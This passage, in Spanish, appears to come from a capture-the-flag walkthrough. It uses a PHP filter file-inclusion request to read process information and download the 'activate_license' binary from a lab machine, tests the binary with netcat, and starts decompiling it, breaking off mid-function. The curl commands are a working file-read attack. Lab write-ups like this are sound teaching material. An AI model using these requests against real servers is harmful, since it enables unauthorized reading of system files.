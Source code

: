 ```console
activate_licens -> 413

└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/proc/413/cmdline | base64 -d
/usr/bin/activate_license1337 
```
Asi que nos traemos dicho bianrio a nuestro sistema
```console
└─$ curl -s http://10.10.11.154/index.php?page=php://filter/convert.base64-encode/resource=/usr/bin/activate_license | base64 -d > activate_licens
└─$ chmod +x  ./activate_licens 
└─$ ./activate_licens
Error: specify port to bind to  

└─$ ./activate_licens 666
[+] starting server listening on port 666
[+] listening ...

└─$ nc localhost 666
AAAA
[+] accepted client connection from 0.0.0.0:0
[+] reading 1094795585 bytes
[+] activated license:
```
Con netcat y python podemos interactuar mejor:
```console
└─$ python3 -c "print('A'*4 + 'A'*6)" | nc localhost 666
└─$ ./activate_licens 666
[+] starting server listening on port 666
[+] listening ...
[+] accepted client connection from 0.0.0.0:0
[+] reading 1094795585 bytes
[+] activated license: AAAAAA
```
----------------------------
# Part 4: Desensamblando el binario

Si abrimos el programa con ghydra (he cambiado nombres de funciones y eliminado salidas de error para hacerlo mas ligero):

```c
int main(int argc,char **argv) {
  int port; char IP_s [16]; sockaddr_in IP; socklen_t IPlen; sockaddr_in server;
  uint16_t port; int sockfd; int serverfd;    
  
  	// Le pide al usuario un puerto como argumento
  port = scanf(argv[1],&DAT_00102100,&port);  // Metemos en port el puerto (o sea argumento 1)
  printf("[+] starting server listening on port %d\n",(ulong)port);

	// Crea un socket en escucha
  server.sin_family = 2; server.sin_addr = htonl(0x7f000001); server.sin_port = htons(port);
  serverfd = socket(2,1,6);
  port = bind(serverfd,(sockaddr *)&server,0x10); port = listen(serverfd,100); puts("[+] listening ...");
  
  while( true ) {
    while( true ) {
    	sockfd = accept(serverfd,(sockaddr *)&IP,&IPlen);
    	inet_ntop(2,&IP.sin_addr,IP_s,0x10);
    	printf("[+] accepted client connection from %s:%d\n",IP_s,(ulong)IP.sin_port);
    	
		// En un proceso hijo (el padre es la conexción en sí) le pasa a "activate_license" 
```